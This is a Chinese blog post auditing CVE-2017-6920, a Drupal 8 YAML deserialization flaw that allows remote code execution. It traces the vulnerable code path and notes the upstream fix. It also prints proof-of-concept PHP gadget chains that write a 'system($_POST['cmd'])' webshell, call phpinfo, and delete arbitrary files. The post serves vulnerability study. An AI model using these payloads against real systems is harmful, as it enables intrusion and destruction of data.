







# 代码审计之 CVE-2017-6920 Drupal 远程代码执行漏洞学习 - tr1ple - 博客园

> 原文：[`www.cnblogs.com/tr1ple/p/10480736.html`](https://www.cnblogs.com/tr1ple/p/10480736.html)

** 1.背景介绍：**

CVE-2017-6920 是 Drupal Core 的 YAML 解析器处理不当所导致的一个远程代码执行漏洞，影响 8.x 的 Drupal Core。

```
Drupal 介绍：
Drupal 是一个由 Dries Buytaert 创立的自由开源的内容管理系统，用 PHP 语言写成。在业界 Drupal 常被视为内容管理框架（CMF），而非一般意义上的内容管理系统（CMS）。
Drupal 目录：
/vendor – Drupal Core 所依赖的后端库
/profile – 贡献和自定义配置文件
/libraries – 第三方库
```

```
/core /lib – Drupal 核心类
/core /assets – Core 使用的各种外部库
/core /misc – Drupal Core 所依赖的前端代码
/core /includes – 低级别为模块化的功能。比如模块系统本身
/core /modules – Drupal 核心模块
/core /profiles – Drupal Core 安装配置文件

```

```
YAML 介绍:
YAML 是“YAML 不是一种标记语言”的外语缩写，但为了强调这种语言以数据做为中心，而不是以置标语言为重点，而用返璞词重新命名。
它是一种直观的能够被电脑识别的数据序列化格式，是一个可读性高并且容易被人类阅读，容易和脚本语言交互，用来表达资料序列的编程语言。
它是类似于标准通用标记语言的子集 XML 的数据描述语言，语法比 XML 简单很多。
```

**2.修复方法：**

```
static $init; if (!isset($init)) 
{ // We never want to unserialize !php/object. 
ini_set('yaml.decode_php', 0); $init = TRUE; 
} 
```

因为通过设置 Init_set()，将限制 yaml 的 decode 函数的功能，从而防止反序列化 php 的对象类型序列化数据

**3.漏洞分析：**

在 yaml.php 中存在以下 decode 函数的调用


所以需要在 yaml 类所在的文件中找 decode 函数，此 decode 函数中调用了静态方法 getSerializer()函数



此方法说明此时应用会判断用什么类来解析 yaml 数据，如果存在 yaml 扩展，就调用 yamlpecl 来处理，否则就使用 yamlsymfony 类来处理，此时要寻找的漏洞点

需要满足调用了 yaml 类的 decode 函数并且传给 decode 函数的入口参数必须是我们可以控制的，所以需要去找这样的函数


在 core/modules/config/src/Form/ConfigSingleImportForm.php 中存在 decode 函数的调用


 这里调用了$form_stare 的 getValue()方法，这里要求我们必须熟悉 drupal 这个框架，知识储备：

```
在处理表单时，有 3 个变量非常重要。
第一个就是$form_id，它包含了一个标识表单的字符串。
第二个就是$form，它是一个描述表单的结构化数组。
第三个就是$form_state，它包含了表单的相关信息，比如表单的值以及当表单处理完成时应该发生什么。
drupal_get_form()在开始时，首先会初始化$form_state。
```

说明$form_state 变量将会存储我们在表单中提交的值，那么 getValue 是干啥的，我们继续跟进一下，在 FormStateInterface.php 中声明了 getvalue 函数的定义，具体的方法体在 FormStateInterface.php 中


此文件继承了 FormStateInterface 接口，并且使用了 FormStateValuesTrait，此时又需要了解需要学 trait

```
Trait 是为类似 PHP 的单继承语言而准备的一种代码复用机制。Trait 为了减少单继承语言的限制，使开发人员能够自由地在不同层次结构内独立的类中复用 method。
```



在 FormStateValuesTrait.php 中实现了 getvalue()函数的方法体,在 getvalue()函数中，将会调用 NestedArray 的 getvalue 函数，将会把我们之前"import"键所对应的值返回，即此时 yaml::decode 就接收到我们传递过去的 payload 了


**4.本地测试：**

首先在其 composer.json 中寻找其加载了哪些代码库



**1.存在 guzzlehttp，因此可以利用其进行任意写文件，Guzzlehttp/guzzle 代码库所存在的 file_put_contents()**

```
<?php require __DIR__.'/vendor/autoload.php'; use GuzzleHttp\Cookie\FileCookieJar; use GuzzleHttp\Cookie\SetCookie; $tr1ple = new FileCookieJar('/tmp/shell.txt'); $payload = '<?php echo system($_POST[\'cmd\']); ?>'; $data=array( 'Name' => "tr1ple",
    'Value' => "Arybin",
    'Domain' => $payload,
    'Expires' => time()
); $tr1ple->setCookie(new SetCookie($data)); file_put_contents('./exp',addslashes(serialize($tr1ple)));
```

导出到文件因为直接写出来会有不可见字符, 写在 tmp 目录是因为所使用的 docker 环境，写入文件到 www 下权限不对，序列化后的数据必须对其中的引号进行转义

结果：



注意：payload 前面需要加上 yaml 的`!php/object` tag(注意一定要转义)，并且因为$data 字段有 Expire 键，因此 payload 过一段时间将会失效，所以再次利用时需要重新生成 payload

```
Expires：
Cookie 过期的时间。这是个 Unix 时间戳，即从 Unix 纪元开始的秒数。　　
换而言之，通常用 time() 函数再加上秒数来设定 cookie 的失效期。
```

**2.利用 Guzzlehttp/psr 中的 FnStream**


如上图所示，在析构函数中，将会调用 call_user_func()函数

```
call_user_func — 把第一个参数作为回调函数调用
第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。
```

而此时 call_user_func()的入口参数只有一个，那么我们此时只能调用无参函数来测试，我们看一下其构造方法，入口参数为数组，并且将会遍历数组，将数组的键名前添加“_fn_”前缀，因为我们需要传递 array("close"=>"phpinfo")作为入口参数

-

poc 如下：

```
<?php require __DIR__."/vendor/autoload.php"; use GuzzleHttp\Psr7\FnStream; $payload = array( "close" => "phpinfo" ); $tr1ple = new FnStream($payload); file_put_contents("exp1",addslashes(serialize($tr1ple)));
```

 

结果：


3.利用/vendor/symfony/process/Pipes/WindowsPipes.php 中的 unlink 导致任意删除

在其 89 行的析构函数中，存在 removeFiles()函数，我们跟进一下


在 196 行中我们可以看到这个函数将会遍历$files 变量，取出文件名，然后将文件删除，而 files 变量是类的私有成员变量




 poc 为：

这个 poc 并没有用到 use，因为我们不需要导入 windowspipes 这个类，我们只需要在实例化这个类后给其私有变量赋值即可，也就是不存在给其构造函数传递参数

```
<?php
namespace Symfony\Component\Process\Pipes; class WindowsPipes{ private $files = array('/tmp/tr1ple.txt');
} $tr1ple = new WindowsPipes(); file_put_contents("exp3",addslashes(serialize($tr1ple)));
```

reference：

1.https://paper.seebug.org/334/

感想：

　　第一次尝试着去针对 CVE 去熟悉一个 cms 框架，这种学习的方法的确让人短时间了解了很多我之前都不会的知识，从接受恶意输入，到触发漏洞函数整个流程，非常可惜的一点是由于测试使用的是 docker 上的环境，

我想使用断点调试，但是调试 docker 里面的 php 配置起来太麻烦了，并且网上的方法不适用与目前的环境，还是自己对 docker 的使用不够熟悉，折腾了半天还是没能搭建成调试环境。但是也体会到开发中常用的开发技巧，

以及想要挖掘漏洞，除了需要掌握安全知识，也需要掌握一定的开发知识。